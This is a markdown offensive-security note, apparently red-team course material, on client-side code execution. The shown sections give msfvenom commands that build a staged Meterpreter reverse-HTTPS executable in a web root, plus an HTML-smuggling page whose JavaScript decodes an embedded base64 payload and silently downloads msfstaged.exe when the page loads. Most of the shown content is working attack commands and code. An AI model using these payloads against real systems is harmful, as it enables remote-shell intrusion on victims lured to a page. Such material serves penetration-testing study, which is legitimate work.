 # Client Side Code Execution

- [Staged or Non-staged Payloads](#staged-or-non-staged-payloads)
- [HTML Smuggling](#html-smuggling)
- [Introduction to VBA](#introduction-to-vba)
- [Let PowerShell Help Us](#let-powershell-help-us)
- [Phishing Pretexting](#phishing-pretexting)
- [Executing Shellcode in Word Memory](#executing-shellcode-in-word-memory)
- [VBA Shellcode Runner](#vba-shellcode-runner)
- [PowerShell Shellcode Runner](#powershell-shellcode-runner)

## Staged or Non-Staged Payloads
Staged Payload - Callback function to executes and downloads the meterpreter execution (**Size 7K Bytes**)
```bash
windows/x64/meterpreter/reverse_https
```

Non-Staged Payload - Full of code includes meterpreter (**Size 200K Bytes**)
```bash
windows/x64/meterpreter_reverse_https
```

## HTML Smuggling
Automatically saves the file without clicking.

Create a staged payload and encode it to base64.
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
base64 /var/www/html/msfstaged.exe
```


```html
<html>
  <body>
    <script>
      // Base64 decoding function
      function base64ToArrayBuffer(base64) {
        var binary_string = window.atob(base64);
        var len = binary_string.length;
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);}
        return bytes.buffer;
      }
      // Converted base64 staged msfpayload
      // decode base64 msfpayload
      var file = 'TVqWEQWEFASDAAWEDASDQWDQDQSSDWQDQD....................'
      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], {type: 'octet/stream'});
      var fileName = 'msfstaged.exe';

      // download  
      var a = document.createElement('a');
      document.body.appendChild(a);
      a.style = 'display: none';
      var url = window.URL.createObjectURL(blob);
      a.href = url;
      a.download = fileName;
      a.click();
      window.URL.revokeObjectURL(url);
    </script>
  </body>
```

[https://youtu.be/N-7_JaEi1As?list=PLAXVYHMta5d4foizpSMGP9W3vFAo-9kCe&t=4767]: #